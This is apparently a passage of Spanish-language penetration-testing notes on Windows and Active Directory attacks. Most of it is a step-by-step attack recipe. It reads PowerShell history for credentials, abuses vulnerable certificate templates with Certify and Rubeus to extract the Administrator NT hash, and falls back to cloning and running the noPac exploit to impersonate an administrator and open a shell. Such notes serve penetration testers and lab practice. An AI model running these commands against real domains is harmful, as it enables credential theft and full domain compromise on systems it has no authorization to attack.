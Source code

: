 Otra cosa interesante es leer el historial de PowerShell, ya que puede ser que un usuario se haya conectado con `EnterPSSession` u otra cosa:

```powershell
type AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

## FTP

Si el inicio de sesión anónimo está habilitado, `nmap` debería reportarlo. En caso de que si hacemos `ls` se quede colgado, debemos seguir los siguientes comandos:

```shell
ftp> passive
Passive mode: on; fallback to active mode: on.
ftp> ls
```

## Certificados

Empezaremos usando la herramienta [certify.exe](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_Any/Certify.exe) junto a [rubeus.exe](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_Any/Rubeus.exe). También necesitamos [ADCS.ps1](https://raw.githubusercontent.com/cfalta/PoshADCS/master/ADCS.ps1) y [PowerView.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1)

```powershell
.\certify.exe find /vulnerable /currentuser
```

Si encuentra una vulnerable, la idea es crear uno impersonando al usuario Administrator y luego con rubeus ver su hash NT:

```powershell
Get-SmartcardCertificate -Identity Adminisrtator -TemplateName <TEMPLATE> -NoSmartcard -Verbose 
```

Luego ejecutamos `cgi` y si tenemos un certificado, perfect:

```shell
gci cert:\currentuser\my -verbose 
```

Ahora teniendo esto, con rubeus tratamos de obtener el hash NT de administrador:

```shell
.\Rubeus.exe asktgt /user:Administrator /certificate:0B76189248DE4A98A6CC7863105DE6E78CA51808 /getcredentials
```

En caso de que esto no funcione, podemos hacer lo siguiente:

```shell
git clone https://github.com/Ridter/noPac.git
cd noPac
pip3 install -r requirements.txt
python3 noPac.py <DOMINIO>/<USUARIO>:<CONTRASEÑA> -dc-ip <IP> -dc-host <HOSTNAME> -shell --impersonate administrator
```
